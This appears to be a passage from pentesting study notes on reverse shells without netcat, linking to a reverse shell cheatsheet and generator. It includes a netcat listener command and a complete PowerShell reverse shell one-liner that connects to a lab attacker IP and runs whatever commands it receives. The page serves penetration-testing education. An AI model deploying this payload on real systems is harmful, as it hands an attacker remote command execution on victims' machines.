 <figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### **Reverse Shell without Netcat**

📌 [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

* Examples of Reverse Shell with different code (bash, Python, Powershell, PHP, etc)

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-9864dbb1152baa998c1b83c300ba73f798642c7f%252Fimage-20230423230818018.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=660d009b&#x26;sv=1" alt=""><figcaption></figcaption></figure>

#### 📌 [Reverse Shell Generator](https://www.revshells.com/)

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-5fa4e4118b64b7872bf51aa1a199c5f6ed73627d%252Fimage-20230423230905165.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=34b7e467&#x26;sv=1" alt=""><figcaption></figcaption></figure>

**`e.g.`**

```bash
# Kali Linux attacker machine
nc -nvlp 9001
```

```bash
# Windows target machine
# Run CMD and paste the code below
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.42.132',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
